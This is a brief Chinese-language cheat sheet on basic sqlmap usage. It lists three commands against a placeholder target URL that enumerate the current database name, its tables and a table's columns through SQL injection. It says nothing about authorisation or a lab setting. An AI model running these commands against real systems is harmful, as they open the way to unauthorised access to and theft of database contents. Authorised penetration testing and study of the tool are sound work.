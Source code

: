 # sqlmap基础使用

## 爆库名称

```bash
python sqlmap.py -u target_url --current-db
```

## 爆表名称

```bash
python sqlmap.py -u target_url  -D database_name --tables

```

## 爆字段

```

python sqlmap.py -u target_url -D database_name -T table_name --columns
```

